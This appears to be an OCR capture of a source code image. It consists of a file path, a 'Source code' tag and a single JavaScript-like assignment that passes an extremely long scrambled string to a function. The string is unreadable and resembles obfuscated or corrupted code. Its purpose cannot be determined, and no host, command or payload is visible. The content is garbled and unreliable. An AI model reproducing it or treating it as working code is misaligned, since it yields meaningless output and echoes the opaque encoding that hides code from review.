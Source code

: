 a=t(e,"6N3vhTy)Ii&57ejMThNy3N37vIh)heTIyvy7v3T}y)y&&y5i557yeNe&ie73jN57j7MiHiNvh%TTTTyny5)hvIyyyi)h)eI)hjI353)sMULvATNKN53hee#5Nyui3ivThvTTI&ieiM&&5T5j)i&35I7v7h7je5jj3v3Mv&y%hMT&yTyjTITv)hyIITiSIe&)&)&eIjIjii&75N5577eye7jMMv^hd5N)3y3jv5&T5h5&7Te!eii&7&eQjyNv373Ivvvj7v&)5i5T5ieTMj%jY3;vwININjhIhIjMVyuh=MN&3veMCM3hNMvyhhhNnIvMy))))M5TNT7&eTjsji7ijbj5M3_,e3e3ee353Thy_Ih7TiyMyjIy)ji7&T&35&5y7ee)jIjhMI/i7jtj3T3jM53&hTTMyN)vI3T5iy&TyiiN5i5eeIe3jjuYjN_MNN3337MIhyhhT-yI3M)v)5I3iz&&)N5&5i77e7&Ie=MIM7N)NN3evM3WhjTDyNy5ij7#5v5j7ie3ih7h7ieiiyMTMhM773MN3NvyvNhITyTvN&)I)TIei7iy&jeeMhM3MenINNehMiNI7&aivTvMhTTvTTTIyj&v5j5I7v7je)i755e2eT7iMTHTCTWeN53l3ih)h)TIy3iT&i&&5T7K7iI&5&75ehe777jI}yEev&h7hMT&yTyj3&T&yMy&INIMI77&evejjiMhMMR&NT3%37v&hNh7T)7TeTeiMTIM&y&h&M5&7vIh5h7T7jey5)j5jiMT*&ljNITTyey&)TIQIiy,I3Iy)v&T&h&h7T7&eheMjMeh3yh7v5hyTNT&hhvMy?Th)N)7)iivivii)&)&ITi&i7&e5&73eNe)eMj7My<TlMNj3viN&N&y5N577TIy5T5h7T7ju&N7NM3&vTvjMe3yh>M)3eT3)Nii&j&j5i7h7eIy5h5M5&eyMhM5MhG739hiTvTjyi)hImIjiT&Z&55h))i755jvM3MIUvzjN)eIMeNhNjT3T5yy)N)7I)i3iejI5heN7ieheMjI5vjhjiMTMNYhjeN3vNNIv7h3T&Thy7)I)NI)57eyeNe7j)M{7ejv7MeMjTMyq53evv3:N&37hyh&)7&v5&5I7v7je)i37ieveyjhjee)25NvNy33v&yi)7)jIiihieIiIMij&&5v5T7T7iWvNINI3v3jv)N53i3yvhhjT&yvyT)T)i5veT7Ievejj)eN77jejNMjkicy3{3/3yw)?)N3333ev7h3heTiyT)h)MIiM3{Tu)N3Ne3yli9j3e35vMhvhNTeI7&3&N&75)7EII5T5v7y7ejhj)ehMjm)NMh)T)T7y))3MQM7zTd)N)N57Y7MeTj{j5MheveIjMM33jhDhvhjTiy333Tiyhy5he)yi{5e77e3eejIy)TMy5IkIh35TehYh5TyTM35h&Tyy53v)hI3i